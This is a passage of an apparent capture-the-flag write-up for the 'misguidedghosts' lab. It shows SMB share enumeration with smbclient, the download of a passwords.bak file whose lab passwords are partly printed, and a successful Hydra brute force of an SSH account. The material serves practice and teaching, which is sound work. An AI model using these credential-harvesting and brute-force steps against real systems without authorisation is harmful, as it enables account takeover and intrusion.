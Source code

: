 ```SH
m3dsec@local:~/misguidedghosts.thm$ ss -tunlp|grep 445
tcp   LISTEN 0      128                            127.0.0.1:4455       0.0.0.0:*                                        
tcp   LISTEN 0      128                                [::1]:4455          [::]:* 
m3dsec@local:~/misguidedghosts.thm$ smbclient -L \\\\127.0.0.1 -p 4455
Enter WORKGROUP\m3dsec's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	local           Disk      Local list of passwords for our services
	IPC$            IPC       IPC Service (misguided_ghosts server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

The Folder `local` Sounds interesting:
```SH
m3dsec@local:~/misguidedghosts.thm$ smbclient \\\\127.0.0.1\\local -p 4455
Enter WORKGROUP\m3dsec's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug 26 15:31:28 2020
  ..                                  D        0  Tue Aug 25 01:00:53 2020
  passwords.bak                       N      160  Wed Aug 26 15:31:28 2020
mg
		19475088 blocks of size 1024. 8564688 blocks available
smb: \> mget passwords.bak
Get file passwords.bak? yes
getting file \passwords.bak of size 160 as passwords.bak (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 
```

The `passwords.bak` file contain some passwords, 
```SH
m3dsec@local:~/misguidedghosts.thm$ cat passwords.bak 
pft7vPl
HQ@5Y64
Ls7kZxv
...
```

<br>

BruteForcing `hayley` SSH account against that passwords list, We successfully BruteForced that hayley ssh account:

```SH
m3dsec@local:~/misguidedghosts.thm$ hydra -l hayley -P passwords.bak ssh://10.10.29.172
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-10 12:14:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:1/p:20), ~2 tries per task
[DATA] attacking ssh://10.10.29.172:22/
[22][ssh] host: 10.10.29.172   login: hayley   password: *******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-10 12:14:40
```
